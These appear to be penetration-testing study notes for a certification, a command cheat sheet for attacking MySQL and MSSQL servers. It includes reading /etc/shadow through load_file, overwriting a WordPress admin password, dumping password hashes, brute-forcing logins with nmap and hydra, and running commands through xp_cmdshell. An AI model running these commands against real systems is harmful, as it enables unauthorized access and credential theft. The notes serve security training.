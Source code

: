 # Initial Enumeration

- `mysql -h 192.71.145.3 -u root`
    - show databases;
    - use books;
    - show tables;
    - select count(*) from authors;
    - select load_file("/etc/shadow");
    - UPDATE SET = WHERE = ;
    - UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
    
    # Nmap scripts
    
    - mysql-empty-password : check anon login
    - mysql-info : check InteractiveClient capability
    - mysql-users --script-args="mysqluser='root',mysqlpass=''"
    - mysql-databases --script-args="mysqluser='root',mysqlpass=''"
    - mysql-variables --script-args="mysqluser='root',mysqlpass=''" : check data-dir
    - mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" : check if file privs can be granted
    - mysql-dump-hashes --script-args="username='root',password=''"
    - mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"
    - ms-sql-info
    - ms-sql-ntlm-info --script-args mssql.instance-port=1433
    - ms-sql-brute --script-args userdb=,passdb=
    
    [![nmap ms-sql-brute output](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Information%20Gathering%20and%20Enumeration/images/sql-01.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Information%20Gathering%20and%20Enumeration/images/sql-01.png)
    
    - ms-sql-empty-password
    - ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins"
    - ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
    - ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
    - ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
    
    # Metasploit Modules
    
    - auxiliary/scanner/mysql/mysql_schemadump : Dump the schema of all databases from the server ￼
    
    [![metasploit mysql_schemadump output](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Information%20Gathering%20and%20Enumeration/images/sql-02.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Information%20Gathering%20and%20Enumeration/images/sql-02.png)
    
    - auxiliary/scanner/mysql/mysql_writable_dirs : writable dirs
    - auxiliary/scanner/mysql/mysql_file_enum : readable files
    - auxiliary/scanner/mysql/mysql_hashdump : database users hashdump
    
    [![metasploit mysql_hashdump output](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Information%20Gathering%20and%20Enumeration/images/sql-03.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Information%20Gathering%20and%20Enumeration/images/sql-03.png)
    
    - auxiliary/scanner/mysql/mysql_login
        
    - auxiliary/scanner/mssql/mssql_login
        
    - auxiliary/admin/mssql/mssql_enum
        
    - auxiliary/admin/mssql/mssql_enum_sql_logins : user enum
        
    - auxiliary/admin/mssql/mssql_exec : execute a cmd is xp_cmdshell enabled
        
    - auxiliary/admin/mssql/mssql_enum_domain_accounts : mps the information such as Windows domain users, groups, and computer accounts
        
        [![metasploit mysql_enum_domain_accounts output](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Information%20Gathering%20and%20Enumeration/images/sql-04.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Information%20Gathering%20and%20Enumeration/images/sql-04.png)
        
    - auxiliary/admin/mysql/mysql_sql - needs creds to run sql queries.
        
    - wordlists:
        
        - usr/share/metasploit-framework/data/wordlists/directory.txt
        - usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
        - /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
    
    # Hydra
    
    - `hydra -l <user> -P <wordlist> <ip> mysql`